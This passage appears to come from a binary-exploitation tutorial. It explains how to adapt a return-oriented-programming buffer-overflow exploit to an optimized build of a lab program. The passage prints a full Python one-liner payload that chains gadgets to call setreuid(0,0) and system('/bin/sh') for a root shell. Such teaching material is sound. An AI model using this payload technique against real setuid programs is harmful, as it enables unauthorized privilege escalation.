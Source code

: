 ### Part 2

For part 2 of the tutorial, basically the same changes apply as for [part 1](#part-1-1).
Instead of padding with 104 bytes of junk, we only need 88 bytes of padding if the executable is compiled with compiler optimizations.

In addition to that, we're not overwriting the return address with a stack address that we determined before but with the address of an instruction in the same executable.
Because of the compiler options being enabled, GCC may output the code at different offsets (position independent executables, PIE) or addresses (non-PIE).
This is exactly what happens here: The address of the `ret` instruction in the `vuln` function changed.
Luckily, all other addresses stayed the same despite the optimized code.
This explicitely means that the addresses referring to `__libc_csu_init` and the `/bin/sh` string didn't change.
The addresses for the functions from libc (i.e. `system` and `setreuid`) didn't change as libc is always loaded at the same base address, no matter whether the executable was compiled with compiler optimizations enabled or not.

Thus, it is sufficient to change the lines

```python
    b'A' * 104 +                        # Padding to reach the return address
    pack('<Q', 0x00005555555551da) +    # Address of ret in function vuln
```

to

```python
    b'A' *88 +                          # Padding to reach the return address
    pack('<Q', 0x0000555555555204) +    # Address of ret in function vuln
```

in the [original exploit codes](#part-2).

Giving just the exploit code including the `setreuid` call, this change results in the following code, working for the optimized executable:

```bash
(python3 -c "from struct import pack; import sys; sys.stdout.buffer.write(
    b'A' * 88 +                         # Padding to reach the return address
    pack('<Q', 0x0000555555555204) +    # Address of ret in function vuln
    pack('<Q', 0x0000555555555273) +    # Address of pop rdi; ret in function __libc_csu_init
    pack('<Q', 0x0000000000000000) +    # Value 0 => uid of root
    pack('<Q', 0x0000555555555271) +    # Address of pop rsi; pop r15; ret in function __libc_csu_init
    pack('<Q', 0x0000000000000000) +    # Value 0 => uid of root (into rsi)
    pack('<Q', 0x4141411411414141) +    # Junk (into r15)
    pack('<Q', 0x00007ffff7eda920) +    # Address of function setreuid
    pack('<Q', 0x0000555555555273) +    # Address of pop rdi; ret in function __libc_csu_init
    pack('<Q', 0x000055555555603f) +    # Address of "/bin/sh" in function main
    pack('<Q', 0x00007ffff7e18410)      # Address of function system
    )"; cat) | ./vulnerable
```

For the non-optimized version, the original code has to be used.
Thus, it is in that case not possible to create a single input that triggers the vulnerability in both the non-optimized and the optimized executable reliably.
